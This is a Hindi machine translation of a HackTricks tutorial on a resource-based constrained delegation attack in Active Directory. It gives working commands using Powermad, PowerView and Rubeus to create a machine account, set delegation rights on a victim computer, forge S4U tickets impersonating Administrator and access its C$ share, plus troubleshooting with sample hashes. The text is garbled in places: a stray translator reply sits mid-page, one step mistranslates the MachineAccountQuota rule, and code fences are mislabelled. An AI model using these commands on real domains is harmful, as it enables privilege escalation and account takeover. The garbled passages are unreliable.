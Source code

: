 # संसाधन-आधारित संयमित प्रतिनिधित्व

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग तरकीबें साझा करें.

</details>

## संसाधन-आधारित संयमित प्रतिनिधित्व की मूल बातें

यह [संयमित प्रतिनिधित्व](constrained-delegation.md) के समान है लेकिन **इसके बजाय** किसी **ऑब्जेक्ट** को किसी सेवा के खिलाफ **किसी भी उपयोगकर्ता का प्रतिरूपण करने की अनुमति देने के बजाय**. संसाधन-आधारित संयमित प्रतिनिधित्व **उस ऑब्जेक्ट में सेट करता है जो इसके खिलाफ किसी भी उपयोगकर्ता का प्रतिरूपण कर सकता है**.

इस मामले में, संयमित ऑब्जेक्ट में _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ नामक एक विशेषता होगी जिसमें उस उपयोगकर्ता का नाम होगा जो इसके खिलाफ किसी अन्य उपयोगकर्ता का प्रतिरूपण कर सकता है.

इस संयमित प्रतिनिधित्व और अन्य प्रतिनिधित्वों में एक और महत्वपूर्ण अंतर यह है कि किसी भी उपयोगकर्ता के पास जो **मशीन खाते पर लिखने की अनुमतियां** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/आदि_) है, वह _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ सेट कर सकता है (अन्य प्रतिनिधित्व रूपों में आपको डोमेन एडमिन विशेषाधिकारों की आवश्यकता थी).

### नई अवधारणाएँ

संयमित प्रतिनिधित्व में यह बताया गया था कि **`TrustedToAuthForDelegation`** ध्वज उपयोगकर्ता के _userAccountControl_ मान में आवश्यक है ताकि **S4U2Self** का प्रदर्शन किया जा सके. लेकिन यह पूरी तरह से सच नहीं है.\
वास्तविकता यह है कि उस मान के बिना भी, आप किसी भी उपयोगकर्ता के खिलाफ **S4U2Self** का प्रदर्शन कर सकते हैं यदि आप एक **सेवा** हैं (एक SPN है) लेकिन, यदि आपके पास **`TrustedToAuthForDelegation`** है तो वापसी TGS **Forwardable** होगा और यदि आपके पास वह ध्वज **नहीं है** तो वापसी TGS **Forwardable नहीं** होगा.

हालांकि, यदि **TGS** जो **S4U2Proxy** में इस्तेमाल किया जाता है **Forwardable नहीं है**, तो **बेसिक संयमित प्रतिनिधित्व** का दुरुपयोग करने की कोशिश **काम नहीं करेगी**. लेकिन यदि आप **संसाधन-आधारित संयमित प्रतिनिधित्व का शोषण कर रहे हैं, तो यह काम करेगा** (यह एक भेद्यता नहीं है, यह एक विशेषता है, जाहिरा तौर पर).

### हमले की संरचना

> यदि आपके पास **कंप्यूटर** खाते पर **लिखने के समकक्ष विशेषाधिकार** हैं तो आप उस मशीन में **विशेषाधिकार प्राप्त पहुंच** प्राप्त कर सकते हैं।

मान लीजिए कि हमलावर के पास पहले से ही **पीड़ित कंप्यूटर पर लिखने के समकक्ष विशेषाधिकार हैं**।

1. हमलावर **एक खाते को समझौता करता है** जिसमें एक **SPN** है या **एक बनाता है** (“सेवा A”). ध्यान दें कि **कोई भी** _एडमिन उपयोगकर्ता_ बिना किसी अन्य विशेष विशेषाधिकार के 10 **कंप्यूटर ऑब्जेक्ट्स (**_**MachineAccountQuota**_**) तक **बना सकता है** और उन्हें एक **SPN** सेट कर सकता है। इसलिए हमलावर बस एक कंप्यूटर ऑब्जेक्ट बना सकता है और एक SPN सेट कर सकता है।
2. हमलावर **पीड़ित कंप्यूटर (सेवा B) पर अपने WRITE विशेषाधिकार का दुरुपयोग करता है** ताकि **संसाधन-आधारित संयमित प्रतिनिधित्व को कॉन्फ़िगर कर सके जो सेवा A को पीड़ित कंप्यूटर (सेवा B) के खिलाफ किसी भी उपयोगकर्ता का प्रतिरूपण करने की अनुमति देता है**।
3. हमलावर Rubeus का उपयोग करके सेवा B के लिए एक उपयोगकर्ता **के साथ विशेषाधिकार प्राप्त पहुंच के साथ** सेवा A से सेवा B के लिए **पूर्ण S4U हमला** (S4U2Self और S4U2Proxy) करता है।
   1. S4U2Self (समझौता किए गए/बनाए गए खाते से): **मेरे लिए एक व्यवस्थापक का TGS मांगें** (Forwardable नहीं)।
   2. S4U2Proxy: पहले के चरण में **Forwardable नहीं TGS** का उपयोग करके **पीड़ित मेजबान** के लिए **व्यवस्थापक से TGS मांगें**।
   3. यहां तक कि यदि आप Forwardable नहीं TGS का उपयोग कर रहे हैं, जैसा कि आप संसाधन-आधारित संयमित प्रतिनिधित्व का शोषण कर रहे हैं, यह काम करेगा।
4. हमलावर **टिकट पास कर सकता है** और **पीड़ित सेवा B तक पहुंच प्राप्त करने के लिए उपयोगकर्ता का प्रतिरूपण कर सकता है**।

डोमेन के _**MachineAccountQuota**_ की जांच करने के लिए आप उपयोग कर सकते हैं:
```
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## हमला

### कंप्यूटर ऑब्जेक्ट बनाना

आप [powermad](https://github.com/Kevin-Robertson/Powermad) का उपयोग करके डोमेन के अंदर एक कंप्यूटर ऑब्जेक्ट बना सकते हैं**:**
```csharp
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Since there is no text provided outside of the image reference, there is nothing to translate. If you have specific text you would like translated, please provide it.
```bash
Get-DomainComputer SERVICEA #Check if created if you have powerview
```
### रिसोर्स-आधारित कंस्ट्रेन्ड डेलिगेशन को कॉन्फ़िगर करना

**activedirectory PowerShell मॉड्यूल का उपयोग करते हुए**
```bash
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
```markdown
![](../../.gitbook/assets/B2.png)

**पावरव्यू का उपयोग करना**
```
```bash
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### पूर्ण S4U हमला करना

सबसे पहले, हमने नया Computer object पासवर्ड `123456` के साथ बनाया, इसलिए हमें उस पासवर्ड के हैश की आवश्यकता है:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
यह उस खाते के लिए RC4 और AES हैशेज़ प्रिंट करेगा।
अब, हमला किया जा सकता है:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
आप Rubeus के `/altservice` पैरामीटर का उपयोग करके एक बार में अधिक टिकट उत्पन्न कर सकते हैं:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
ध्यान दें कि उपयोगकर्ताओं में "**Cannot be delegated**" नामक एक विशेषता होती है। यदि किसी उपयोगकर्ता के पास यह विशेषता सत्य के रूप में है, तो आप उसकी नकल नहीं कर पाएंगे। इस संपत्ति को bloodhound के अंदर देखा जा सकता है।
{% endhint %}

![](../../.gitbook/assets/B3.png)

### पहुँच

अंतिम कमांड लाइन **पूर्ण S4U हमले को प्रदर्शित करेगी और TGS को Administrator से पीड़ित होस्ट में **मेमोरी** में इंजेक्ट करेगी।\
इस उदाहरण में Administrator से **CIFS** सेवा के लिए एक TGS की मांग की गई थी, इसलिए आप **C$** तक पहुँच सकेंगे:
```bash
ls \\victim.domain.local\C$
```
### विभिन्न सेवा टिकटों का दुरुपयोग

[**उपलब्ध सेवा टिकटों के बारे में यहाँ जानें**](silver-ticket.md#available-services)।

## Kerberos त्रुटियाँ

* **`KDC_ERR_ETYPE_NOTSUPP`**: इसका मतलब है कि kerberos DES या RC4 का उपयोग नहीं करने के लिए कॉन्फ़िगर किया गया है और आप केवल RC4 हैश प्रदान कर रहे हैं। Rubeus को कम से कम AES256 हैश प्रदान करें (या केवल rc4, aes128 और aes256 हैश प्रदान करें)। उदाहरण: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: इसका मतलब है कि वर्तमान कंप्यूटर का समय DC के समय से अलग है और kerberos ठीक से काम नहीं कर रहा है।
* **`preauth_failed`**: इसका मतलब है कि दिया गया उपयोगकर्ता नाम + हैशेज़ लॉगिन करने के लिए काम नहीं कर रहे हैं। आपने हैशेज़ जेनरेट करते समय उपयोगकर्ता नाम में "$" डालना भूल गए हो सकते हैं (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: इसका मतलब हो सकता है:
  * आप जिस उपयोगकर्ता को इम्पर्सनेट करने की कोशिश कर रहे हैं वह वांछित सेवा तक पहुँच नहीं सकता (क्योंकि आप उसे इम्पर्सनेट नहीं कर सकते या क्योंकि उसके पास पर्याप्त अधिकार नहीं हैं)
  * पूछी गई सेवा मौजूद नहीं है (यदि आप winrm के लिए एक टिकट मांगते हैं लेकिन winrm चल नहीं रहा है)
  * बनाया गया fakecomputer अपने अधिकार खो चुका है और आपको उसे वापस देने की जरूरत है।

## संदर्भ

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें**।
* **HackTricks** को अपनी हैकिंग ट्रिक्स साझा करके PRs सबमिट करें [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
